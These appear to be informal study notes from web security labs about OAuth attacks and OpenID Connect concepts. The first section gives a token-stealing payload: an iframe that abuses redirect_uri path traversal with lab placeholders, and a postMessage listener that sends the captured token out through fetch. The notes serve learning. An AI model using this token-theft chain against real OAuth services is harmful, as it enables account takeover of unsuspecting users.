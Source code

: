 ### Stealing OAuth access token via a Proxy page
* since we dint able to make redirect_uri to make external call
* we analyse the application and find any other vulnerability we can take advantage of that.
* here we have vulnerable in comment section that  `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
* final csrf link is 
```js
<iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```
`<script>  
  window.addEventListener('message', function(e) {  
    fetch("/" + encodeURIComponent(e.data.data))  
  }, false)  
</script` this script listen web message in the exploit server and revel the message.

# Flowed Scope Validation
* In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. The resulting token allows the client application to access only the scope that was approved by the user. But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. The process for doing this depends on the grant type.

### Scope Upgrade: 
* their is chance to manipulate the scope
* also unverified user registration that doesn't verify the user who register so attacker can register with the same detail that victim have and may able to login in as victim.


# OpenId Connect

### what is OpenId connect 
* OpenID Connect extends the OAuth protocol to provide a dedicated identity and authentication layer that sits on top of the `basic OAuth implementation` It adds some simple functionality that enables better support for the authentication use case of OAuth.
### OpenId Connet Roles
* Relying Party: The application that is requesting authentication of user. same as OAuth client application.
* End user: The user who is being authenticated. same as OAuth resource owner.
* OpenId Provider: an Oauth service that is configured to support OpenId Connect.
### OpenId Connect Claims and Scopes
"claims" refer to `key:value` pairs that represent information about user on the resource server.
`name:"DK"`
* scope of OpenId connect are fixed and they include 1 or more other standard scopes.

